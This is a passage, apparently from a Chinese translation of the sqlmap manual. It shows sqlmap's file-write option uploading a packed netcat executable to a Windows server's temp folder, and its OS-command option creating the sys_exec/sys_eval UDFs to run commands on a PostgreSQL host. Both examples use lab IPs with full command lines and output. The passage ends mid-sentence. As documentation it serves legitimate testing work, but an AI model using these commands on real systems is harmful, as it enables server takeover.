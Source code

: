 ```
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI) Intel
80386 32-bit
```
把文件上传到数据库服务器中

参数：`--file-write,--file-dest`

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。上传的文件可以是文本也可以是二进制文件。

列举一个MySQL的例子：
```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write \
"/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL &gt;= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been successfully 
written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 bytes, 
same size as the local file '/software/nc.exe.packed'
```
运行任意操作系统命令

参数：`--os-cmd,--os-shell`

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。

在MySQL、PostgreSQL，sqlmap上传一个二进制库，包含用户自定义的函数，`sys_exec()`和`sys_eval()`。

那么他创建的这两个函数可以执行系统命令。在Microsoft SQL Server，sqlmap将会使用xp_cmdshell存储过程，如果被禁（在Microsoft SQL Server 2005及以上版本默认禁制），sqlmap会重新启用它，如果不存在，会自动创建。

列举一个PostgreSQL的例子：
```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" \
--os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(postgres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file system can 
```